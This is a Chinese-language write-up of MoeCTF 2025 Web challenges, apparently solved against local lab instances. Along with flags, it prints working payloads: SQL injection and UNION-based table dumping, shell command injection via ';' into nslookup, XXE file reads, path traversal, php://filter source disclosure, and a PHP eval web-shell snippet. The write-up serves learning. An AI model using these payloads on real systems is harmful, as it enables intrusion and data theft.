<!--markdownlint-disable MD033 MD041-->

<div align="center">

# 🌍 Web 安全与渗透测试 题解 🛡️

</div>

## 0 Web 入门指北 ✅

> [!NOTE]
> **FLAG:** `moectf{jv@vScr1p7_14_so0o0o0o_inT3r3&t!!!}`

题目所给出的 `moectf2025__web_signin.txt` 附件显然是经过了 [JSFuck](https://jsfuck.com/) 混淆的 JavaScript 脚本。在 F12 开发者工具的控制台中输入该脚本即可得到 `flag`。



也可以使用 [de4js](https://lelinhtinh.github.io/de4js/) 等反混淆器得到答案。

## 01 第一章 神秘的手镯 ✅

> [!NOTE]
> **FLAG:** `moectf{f_i2_1s_Your_g00d_fri3nd!!}`

注意到启动的网页不允许使用 `Ctrl+V` 粘贴启封咒 `wan_yan_qi_feng_zhou.txt`，我们不妨直接在 F12 开发者工具的源代码中寻找出路。以下截取 `shouzhuo.js` 中的部分内容（第 20 行起）：

```javascript
// 验证密码
function validatePassword() {
    const input = document.getElementById('passwordInput').value;
    const resultDiv = document.getElementById('result');

    if (input === CORRECT_PASSWORD) {
        resultDiv.innerHTML = `
            <div class="success">
                <p>🌟 手镯迸发青光，K皇虚影浮现：</p>
                <p>"小辈不错！此物赠你——"</p>
                <!-- 恭喜你已经会阅读前端代码了！这是解题的另一条道路！以下是你的flag和小说的后半段。 -->
                <div class="flag">moectf{f_i2_1s_Your_g00d_fri3nd!!}</div>
                <p>《金曦玄轨感应篇》已注入神识</p>
```


这里即可得到 `flag` 内容。我们也有另一种绕过粘贴检测的方式：直接用 `notepad` 打开对应文件后，全选并拖入输入框中。

## 01 第一章 神秘的手镯_revenge ✅

> [!NOTE]
> 星澜音忘记 `flag` 了。
<!---->
> K 皇：咳咳…其实当年飞升后，为了防止你偷偷看我收藏的小秘密，我重新设置了一个密码放在 `wanyanzhou.txt` 里面了……但是我忘记密码是啥了，而且不小心把保存密码的文件删了……

极为诡异的题目，如同脑筋急转弯一般，我们需要注意到 `wanyanzhou.txt` 的内容位于 `127.0.0.1:port/wanyanzhou.txt.bak` 中……然后写个 Python 脚本连发 500 次即可。下面给出一个可用的脚本：

```python
import json
import os

import requests


def send_unseal_requests():
    # 读取 wanyanzhou.bak 文件内容
    try:
        with open("wanyanzhou.bak", "r", encoding="utf-8") as file:
            file_content = file.read()
    except FileNotFoundError:
        print("错误：找不到 wanyanzhou.bak 文件")
        return
    except Exception as e:
        print(f"读取文件时出错：{e}")
        return

    # 构造请求数据
    payload = {"content": file_content}

    # 设置请求头
    headers = {"X-Special-Header": "magic", "Content-Type": "application/json"}

    # 目标 URL
    url = "http://127.0.0.1:5045/unseal"

    # 发送 500 个请求
    success_count = 0
    fail_count = 0

    for i in range(500):
        try:
            response = requests.post(url, json=payload, headers=headers, timeout=10)

            if response.status_code == 200:
                success_count += 1
                print(f"请求 {i+1}/500 成功 - 状态码: {response.status_code}")
            else:
                fail_count += 1
                print(f"请求 {i+1}/500 失败 - 状态码: {response.status_code}")

        except requests.exceptions.RequestException as e:
            fail_count += 1
            print(f"请求 {i+1}/500 异常 - {e}")

    # 输出统计信息
    print(f"\n=== 请求完成 ===")
    print(f"成功: {success_count}")
    print(f"失败: {fail_count}")
    print(f"成功率: {success_count/5}%")


if __name__ == "__main__":
    # 检查文件是否存在
    if not os.path.exists("wanyanzhou.bak"):
        print("错误：wanyanzhou.bak 文件不存在")
    else:
        send_unseal_requests()
```

这里不得不吐槽一下 Burp Suite Community 了😡免费版不能把用户不当人啊，我挂了一个小时 Intruder，环境的一个小时时限都完了，500 次包还没发完😄

## 02 第二章 初识金曦玄轨 ✅

> [!NOTE]
> **FLAG:** `moectf{0bs3rv3_Th3_Gold3n_traiL}`

根据小说描述，「破阵罗盘」可能指 Burp Suite 等抓包工具，「玄枢灵印」指 Burp Suite 生成的 CA 证书。**[信物连接] -> [法则与隐私] -> [权限管理] -> [玄枢灵印] -> [导入灵印]** 应当指在 Windows 中导入证书的过程，**[信物连接] -> [法则网络] -> [灵枢代理] -> [手动设置灵枢]** 即设置 Windows 代理的过程。

但事实上，星澜音在未开启 Burp Suite 和设置代理的情况下亦完成了此题。打开给定的网页后，根据提示访问 `localhost:13581/golden_trail`（端口号可能因人而异），同时在 F12 开发者工具中抓取该 HTTP GET 请求，在响应标头的 `X-Jinxi-Secret` 中得到了 `flag`。


## 03 第三章 问剑石！篡天改命！✅ <!---->

> [!NOTE]
> **FLAG:** `moectf{Get-P0sT_TR4NsmISSion_I5_a_GOOD_METhoD??????}`，后面可能是随机的。

根据小说描述，我们需要在网页发出「测试天赋」请求时，抓取该 HTTP POST 包并修改其参数和数据体内容。我们使用 Burp Suite 的 Proxy，打开 Intercept 后，在 Burp Suite 内置的 Chromium 浏览器中访问给定的网址，并进行一次「测试天赋」。

截取到一次 HTTP POST 请求如下：

```plain
POST /test_talent?level=B HTTP/1.1
Host: 127.0.0.1:13997
Content-Length: 24
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:13997
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:13997/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"manifestation":"none"}
```

`manifestation` 应为「显现、出现」之意，在这里我们理解为「显现的光芒」。修改 `POST` 的参数和 `manifestation` 的值即可。

```diff
- POST /test_talent?level=B HTTP/1.1
+ POST /test_talent?level=S HTTP/1.1

- {"manifestation":"none"}
+ {"manifestation":"flowing_azure_clouds"}
```


## 04 第四章 金曦破禁与七绝傀儡阵 ✅

> [!NOTE]
> **FLAG:** `moectf{C0n6r47u14710n5_y0ur_h77P_l3v3l_15_r34lly_h19h!}`

<div align="center">

**「以金曦玄轨之力破解七道禁制，获得玄机秘钥。」**<!--markdownlint-disable-line MD036-->

</div>

这里我们给出全程仅使用浏览器和 `curl` 的做法。使用 Burp Suite 和 Postman 等套件的做法是显然的。

### 第一关：磐石傀儡

> [!NOTE]
> **玉简碎片 1:** `bW9lY3Rme0Mw`

只需访问 `localhost:port/stone_golem?key=xdsec` 即可。

### 第二关：织云傀儡

> [!NOTE]
> **玉简碎片 2:** `bjZyNDd1MTQ3`

使用 `curl` 进行追加表单数据的 HTTP POST 请求即可。

```bash
curl -X POST "http://127.0.0.1:3604/cloud_weaver" -d "declaration=织云阁=第一"
```

得到输出如下（节选，排版有优化）：

```html
<div class="result success">
    <p><i class="fas fa-check-circle"></i> 织云傀儡欢欣鼓舞，风刃消散！</p>
    <div class="flag-piece">获得玉简碎片: bjZyNDd1MTQ3</div>
</div>
<div class="next-level">
    <a href="/shadow_stalker">前往第三关：溯源傀儡</a>
</div>
```

并据此获知第三关的地址 `localhost:port/shadow_stalker`。

### 第三关：溯源傀儡

> [!NOTE]
> **玉简碎片 3:** `MTBuNV95MHVy`

使用 `curl` 进行指定 Header 的 HTTP GET 请求即可，在 Header 中包含 `X-Forwarded-For` 参数。

```bash
curl -X GET "http://127.0.0.1:3604/shadow_stalker" -H "X-Forwarded-For: 127.0.0.1"
```

得到输出如下（节选，排版有优化）：

```html
<div class="result success">
    <p><i class="fas fa-check-circle"></i> 溯源傀儡认可你的身份，缓缓退入阴影！</p>
    <div class="flag-piece">获得玉简碎片: MTBuNV95MHVy</div>
</div>
<div class="next-level">
    <a href="/soul_discerner">前往第四关：器灵傀儡</a>
</div>
```

并据此获知第四关的地址 `localhost:port/soul_discerner`。

### 第四关：器灵傀儡

> [!NOTE]
> **玉简碎片 4:** `X2g3N1BfbDN2`

类似地，我们有

```bash
curl -X GET "http://127.0.0.1:3604/soul_discerner" -H "User-Agent: moe browser"
```

得到输出如下（节选，排版有优化）：

```html
<div class="result success">
    <p><i class="fas fa-check-circle"></i> 器灵傀儡光点欢快跳跃，发出悦耳的叮咚声！</p>
    <div class="flag-piece">获得玉简碎片: X2g3N1BfbDN2</div>
</div>
<div class="next-level">
    <a href="/heart_seal">前往第五关：心印傀儡</a>
</div>
```

并据此获知第五关的地址 `localhost:port/heart_seal`。

### 第五关：心印傀儡

> [!NOTE]
> **玉简碎片 5:** `M2xfMTVfcjM0`

使用 `curl` 进行指定 Cookie 即可。

```bash
curl -X GET "http://127.0.0.1:3604/heart_seal" -b "user=xt"
```

得到输出如下（节选，排版有优化）：

```html
<div class="result success">
    <p><i class="fas fa-check-circle"></i> 心印傀儡令牌瞬间定格，认你为xt长老！</p>
    <div class="flag-piece">获得玉简碎片: M2xfMTVfcjM0</div>
</div>
<div class="next-level">
    <a href="/pathfinder">前往第六关：前尘傀儡</a>
</div>
```

并据此获知第六关的地址 `localhost:port/pathfinder`。

### 第六关：前尘傀儡

> [!NOTE]
> **玉简碎片 6:** `bGx5X2gxOWgh`

仿照上例显然。

```bash
curl -X GET "http://127.0.0.1:3604/pathfinder" -H "Referer: http://panshi/entry
```

得到输出如下（节选，排版有优化）：

```html
<div class="result success">
    <p><i class="fas fa-check-circle"></i> 前尘傀儡光字停止流转，组合成一道光门！</p>
    <div class="flag-piece">获得玉简碎片: bGx5X2gxOWgh</div>
</div>
<div class="next-level">
    <a href="/void_rebirth">前往第七关：逆转傀儡</a>
</div>
```

并据此获知第七关的地址 `localhost:port/void_rebirth`。

### 第七关：逆转傀儡

> [!NOTE]
> **玉简碎片 7:** `fQ==`

使用 `curl` 进行追加表单数据的 HTTP PUT 请求即可。

```bash
curl -X PUT "http://127.0.0.1:3604/void_rebirth" -d "新生！"
```

得到输出如下（节选，排版有优化）：

```html
<div class="result success">
    <p><i class="fas fa-check-circle"></i> 逆转傀儡重获新生，炉口幽光收敛！</p>
    <div class="flag-piece">获得玉简碎片: fQ==</div>
</div>
<div class="next-level">
    <a href="/final_success">合成玄机秘钥</a>
</div>
```

并据此获知最终关的地址 `localhost:port/final_success`。

### 最终关

> 收起七枚玉简，尤其是那枚空间波动最强的第七关玉简，HDdss 转身离开七绝傀儡阵。他知道，这枚玉简不仅是通关凭证，更可能指向下一个任务或机缘。手腕上，K 皇的虚影悄然浮现，带着一丝嘉许：「孺子可教。金曦破禁，已得三分真味。然此术浩瀚，日后更需勤修不辍。这『归墟玉简』……或许与老夫所需之『引魂玉』线索有关。且回听竹小筑，细细参研。」

使用 Base64 解码 7 个玉简碎片拼接后的字符串即可。

## 05 第五章 打上门来！✅ <!---->

> [!NOTE]
> **FLAG:** `moectf{Al1_1NPUT-lS-MAI1Ci0U5????????}`，后面可能是随机的。

注意到打开的网页类似文件管理器，根据题目描述

> 破阵之机，在于「破界之眼」，寻得迷宫「源点」（根目录）！

故我们尝试使用 `../` 结构访问其父目录。简要尝试后显然得知，`flag` 文件位于 `../../flag` 处。


## 06 第六章 藏经禁制？玄机初探！✅ <!---->

> [!NOTE]
> **FLAG:** `moectf{WE1CoMe-to-SQ1_lnjecTiON!!???????}`，后面可能是随机的。

这是一道基本的 SQL 注入题目。用户名输入 `lyrin`，密码输入 `' OR '1'='1` 即可。



## 07 第七章 灵蛛探穴与阴阳双生符 ✅

> [!NOTE]
> **FLAG:** `moectf{Md5_lS_NOT-sAF3????????????}`，后面可能是随机的。

爬虫使用的文件是 `robots.txt`，故打开 `localhost:port/robots.txt` 即可。得到如下内容：

```plain
User-agent: *
Disallow: /flag.php
```

顺藤摸瓜找到 `flag.php`，内容如下：

```php
<?php
highlight_file(__FILE__);
$flag = getenv('FLAG');

$a = $_GET["a"] ?? "";
$b = $_GET["b"] ?? "";

if($a == $b){
    die("error 1");
}

if(md5($a) != md5($b)){
    die("error 2");
}

echo $flag;
```

这段代码从环境变量中拿到 `FLAG`（这是一个伏笔：后续许多题目的 `flag` 都在环境变量中），从用户的请求中得到 `a` 和 `b`，但需要进行下面两次检测才会显示出 `flag`。这两次检测需要满足

1. `a` 不能等于 `b`；
2. `a` 和 `b` 的 MD5 值需要相同。

PHP 存在这样的特性，若一个字符串以 `0e` 开头，则它会被解释为 `0`。基于此，我们只需找到 2 个字符串，使得它们的 MD5 值均以 `0e` 开头即可。

我们给出两个可用的值：

```plain
240610708
314282422
```

访问 `http://127.0.0.1:6218/flag.php?a=314282422&b=240610708` 即可得到 `flag`。

## 08 第八章 天衍真言，星图显圣 ✅

> [!NOTE]
> 「和上次一样的界面，那我再登录一次就行了……吗？」
>
> **FLAG:** `moectf{uniOn_B4seD-5Ql1-FTWl12814a0e18}`，后面可能是随机的。

注意到用户名随便输入，密码输入 `' OR '1'='1` 时，会返回且总会返回 `Welcome admin`🤔寻思着 `lyrin` 也不像 `admin` 啊，看来必须得深究一下了。

首先我们确定这确实是一个 SQL 注入漏洞，而 `' OR '1'='1` 的成功也意味着我们确实可以控制 `WHERE` 子句。自然地，我们考虑 `flag` 可能位于这张表或另一张表中。无论如何，我们总应先确定原始 `SELECT` 查询返回了多少列。试试 `ORDER BY`——


？？最诡异的来了，我们发现 `'ORDER BY 1--` 都没一点用……可能是服务端屏蔽了 `ORDER BY` 语句？也有可能是服务端已经用了一次 `ORDER BY` 了？无论如何我们现在确实没法 `ORDER BY` 了，这个时候就必须要开始——手动 `UNION SELECT` 探测！

> [!TIP]
> 下面各指令，理论上，`--` 后需要一个空格。这是 SQL 语法的规定，只有 `--` 后接一个空格或其他控制字符，之后的内容才会被当作注释而忽略掉。

<!--markdownlint-disable-next-line MD038-->
我们使用任意用户名和密码 `' UNION SELECT NULL,NULL-- `，这里 `-- ` 表示注释后面的一切内容，即忽略掉 `UNION SELECT` 之后的内容，而连用 2 个 `NULL` 用来泛匹配列。假如列表有 `N` 列，当且仅当我们连用 `N` 个 `NULL`，页面会显示登录成功。刚好，我们探测到有 2 个列😋

<!--markdownlint-disable-next-line MD038-->
接下来我们探测一下，这 2 个列中，哪个列的数据会被显示在 `Welcome` 之后。使用 `' UNION SELECT 'position1','position2'-- ` 做到这一点，它会在 `Welcome` 后追加一个 `position` 值。尝试后得到


那还能说啥，`Welcome` 之后跟的就是 `position1` 了😋接下来我们不加解释地直接使用 `GROUP_CONCAT` 函数：

```plain
' UNION SELECT GROUP_CONCAT(table_name),NULL FROM information_schema.tables WHERE table_schema=DATABASE()-- 
```

从 `DATABASE()` 中拿到 `tables` 值，以期获得所有的表名。


这下看懂了，用户存于表 `users` 中，而 `flag` 表，顺理成章，则是用来存储 `flag` 的。接下来我们尝试获得 `flag` 表的所有列名：

```plain
' UNION SELECT GROUP_CONCAT(column_name),NULL FROM information_schema.columns WHERE table_name='flag'-- 
```


拿到了！`flag` 表具有列名 `value`！最后一击——

```plain
' UNION SELECT GROUP_CONCAT(value),NULL FROM flag-- 
```


顺带一提，这个题用 `sqlmap` 似乎可以直接爆出 `flag`，但是星澜音做完这道题之前还不知道有这么个工具😡😡😡

## 09 第九章 星墟禁制·天机问路 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

在「星域真名」中输入 `stellalyrin.top`，得到：

```plain
;; communications error to 10.43.0.10#53: connection refused
;; communications error to 10.43.0.10#53: connection refused
;; communications error to 10.43.0.10#53: connection refused
;; no servers could be reached
```

注意到这是 `nslookup` 的输出，我们推测，服务器侧很有可能将用户输入直接追加在 `nslookup` 后面，然后发送给服务器作为指令。我们尝试用 `;`（分号）构造多命令以寻找 `flag` 文件。例如 `stellalyrin.top ; ls -la /`。

经过多次尝试后，始终未能成功找到 `flag` 文件，最终我们惊喜地发现，`flag` 位于环境变量中😇。构造 `stellalyrin.top ; printenv` 即可得到 `flag`。


## 10 第十章 天机符阵 ✅

> [!NOTE]
> **FLAG:** `moectf{G00d_7o6_4nD_XX3_Unl0ck_St4r_S34l}`，后面可能是随机的。

注意到：



即可得到 `flag`。


经过出题人证实，这是一种非预期做法，并且在「10 第十章 天机符阵_revenge」中进行了修正。

## 10 第十章 天机符阵_revenge ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

是对上一个第 10 题的「非预期」解法的修正。下面给出使用 XXE 注入的预期做法。



在「契约内容」中输入 ` `（空格）后，观察「符阵推演结果」如下

```plain
<br />
<b>Warning</b>:  DOMDocument::loadXML(): Start tag expected, '&lt;' not found in Entity, line: 1 in <b>/var/www/html/chapter10.php</b> on line <b>17</b><br />
<阵枢>引魂玉</阵枢>
<解析>未定义</解析>
<输出>未定义</输出>
```

观察到这是经典的 XXE（XML External Entity，XML 外部实体）注入攻击的模板。「符阵推演结果」中的 `chapter10.php` 指示服务器正在使用 PHP 语言接受「契约内容」，而 `DOMDocument::loadXML()` 又表明服务器正在使用 XML 解析器来尝试解析用户的输入为 XML 文档。`'&lt;' not found in Entity` 指示服务器未找到「契约内容」中开头应当出现的 `<`，因为一个 XML 文档一般一定需要以一个标签开头，而这个标签以 `<` 开头。

后续，「符阵推演结果」又输出了 `<阵枢>`、`<解析>` 和 `<输出>` 三部分，我们认为，这是服务器侧代码正常的处理逻辑：它会尝试解析「契约内容」为 XML，并将用户输入中对应的部分用来更换输出的「符阵推演结果」。我们应构造以下「契约内容」：

```xml
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>

<data>
  <输出>&xxe;</输出>
</data>
```

`<!DOCTYPE data []>` 作为 DTD（Document Type Definition，文档类型定义）用以规定 XML 文档的结构和合法元素；`data` 指 XML 文档的根元素必须为 `data`，而 `[]` 内是具体的定义内容。我们在 `[]` 内定义了这样一个 entity（实体）：它的名字是 `xxe`，关键字 `SYSTEM` 告诉解析器实体的内容需要从外部资源中获取，`file:///flag.txt` 指定了该外部资源的具体位置，这是一个本地文件协议的 URI，地址就指向目标 `flag` 文件。通常情况下，我们并不能快速猜测 `flag` 文件的位置，这需要我们多次尝试。~~终于不是在环境变量里了~~

`<data></data>` 中定义了具体的 XML 文档的内容，`&xxe;` 引用了一个实体的内容。而之所以我们将 `&xxe;` 放在 `<输出></输出>` 中，是因为我们需要迎合服务器的处理逻辑，这一点在上文中提到过。

输入该「契约内容」并「发动符阵」后得到 `flag`，其位于「符阵推演结果」的 `<输出></输出>` 中。


## 11 第十一章 千机变·破妄之眼 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

首先根据题目提示：

> HDdss 看到了 `GET` 参数名由 `m,n,o,p,q` 这五个字母组成（每个字母出现且仅出现一次），长度正好为 5，虽然不清楚字母的具体顺序，但是他知道参数名等于参数值才能进入。

可以尝试手动尝试，但注意到可能性有 $5! = 120$ 种，手动枚举过于耗时，我们编写这样的 Python 脚本，它将枚举全部的可能性，并调起 Edge 打开对应网页，我们人工审查对应网页的情况。构造 Python 脚本如下：

```python
"""check_unique_webpage.py

该 Python 脚本供 MoeCTF 的 Web 赛道中，「11 第十一章 千机变·破妄之眼」题目使用。
由 星澜音 在 Qwen 的帮助下编写。
"""

import os
import time
import webbrowser
from itertools import permutations

# 定义字母集合
letters = ["m", "n", "o", "p", "q"]

# 生成所有可能的排列（$5! = 120$ 种）
all_permutations = ["".join(p) for p in permutations(letters)]

# 基础 URL
base_url = "http://127.0.0.1:7029/"

# 提示用户即将开始运行
print(f"🔥 准备在 3 秒后打开 {len(all_permutations)} 个浏览器标签页……")
time.sleep(3)
print("⏳ 请稍等，每 1 秒会自动打开一个新标签页……\n")

# 逐个打开请求页面
for i, param_name in enumerate(all_permutations, 1):
    # 构造带参数的 URL 并提示用户
    url = f"{base_url}?{param_name}={param_name}"
    print(f"({i}/{len(all_permutations)}) 即将打开 {param_name}")

    # 打开 Edge 标签页
    webbrowser.open(url, new=2)

    # 每 1 秒打开一个
    if i < len(all_permutations):
        time.sleep(1)

# 完成提示
print("\n✅ 全部 120 个请求已发送！")
```

运行，输出如下：

```plain
🔥 准备在 3 秒后打开 120 个浏览器标签页……
⏳ 请稍等，每 1 秒会自动打开一个新标签页……

(1/120) 即将打开 mnopq
(2/120) 即将打开 mnoqp
(3/120) 即将打开 mnpoq
(4/120) 即将打开 mnpqo
...
(120/120) 即将打开 qpomn

✅ 全部 120 个请求已发送！
```



经过尝试后，容易找到一个对应的 URL，它将我们重定向到 `/find.php` 页面。事实上，可能有更好的方法找到该 URL，但鉴于星澜音的 32G RAM 笔记本完全足以支撑 Edge 打开 120 个网页，所以暂且就先用这种土办法了。

（事实上，使用 Burp Suite 的 Repeater 完成，比这种土方法快多了🤣）

和先前一样，这又是一个类似于文件浏览器一样的界面。注意到有 `flag.php`，我们直接点击——



<div align="center">

😡😡😡**气死我了，竟然说我境界不够**😡😡😡<br/>
😎 看招 😎

</div>

我们容易想到，`index.php` 应当使用 PHP 的伪协议（Wrapper）来读取文件内容。即使玉简内容让我们十分生气😡，但至少为我们提示：**我们现在看到的内容，远少于我们应当能看到的内容**。换句话来说，这句话应当为服务器执行（render）了 `flag.php` 后为我们展示的内容，而远非这个文件本身的内容。

那有什么办法绕过服务器的执行呢？或者说——我们的思路就是去读取 `flag.php` 的源代码。自然地，我们会想到一个万能的协议 `php://filter`！它也可以用来读取文件，不过它支持在展示文件内容前，为其内容加入一些「过滤」！例如，`convert.base64-encode` 过滤器可以将内容转换为 Base64 加密格式。这样，我们再想展示文件内容时，就不必担心它因为明文显示，而被服务器当作 PHP 源码执行了！

构造

```plain
php://filter/read=convert.base64-encode/resource=flag.php
```

即可得到

```plain
PD9waHANCmVjaG8gImZsYWflsLHlnKjov5nkuobvvIznnIvkuI3liLDlkJfvvIzmmK/ogIHlvJ/looPnlYzkuI3lpJ/lkKciOw0KLy9tb2VjdGZ7MGJjNjFlMWUtY2FjYS0zYTI4LTBiYjYtMWNhNGIyNGU1MzczfQ==
```

使用 CyberChef 解 Base64 得到

```php
<?php
echo "flag就在这了，看不到吗，是老弟境界不够吧";
//moectf{0bc61e1e-caca-3a28-0bb6-1ca4b24e5373}
```

果然是给我塞了一段 PHP 文件😡😡，好在这道题目成功解决了！ヾ(≧▽≦\*)o

## 12 第十二章 玉魄玄关·破妄 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

访问网页得到一段 PHP 代码：

```php
<?php
highlight_file(__FILE__);
@eval($_POST['cmd']);
```

